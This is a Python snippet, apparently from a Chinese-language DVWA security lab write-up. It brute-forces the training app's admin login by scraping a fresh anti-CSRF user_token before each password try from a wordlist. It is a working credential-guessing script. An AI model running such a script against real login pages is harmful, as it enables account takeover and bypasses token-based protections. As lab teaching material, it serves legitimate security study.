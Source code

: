 ```python
        }

def get_token(requrl,header):
    req = requests.get(url=requrl,headers=header)
    page = req.text
    soup = BeautifulSoup(page,"html.parser")
    value = soup.select("input[name=user_token]")

    key=str(value)
    p1 = r"(?<=value=\").+?(?=\")"
    pattern1 = re.compile(p1)
    matcher1 = re.search(pattern1,key)

    user_token= matcher1.group(0)
    a=str(user_token)
    print (req.status_code,len(page))
    return a

user_token = get_token(requrl,header)
i=0

for key in open("password.txt"):

    requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+key.strip()+"&Login=Login&user_token="+user_token

    i = i+1
    print (i,'admin',key.strip(), end=" " )
    user_token = get_token(requrl,header)
    if (i == 100):
        break
```
![image](../../../assets/img/安全/实验/dvwa/dvwa11.png)
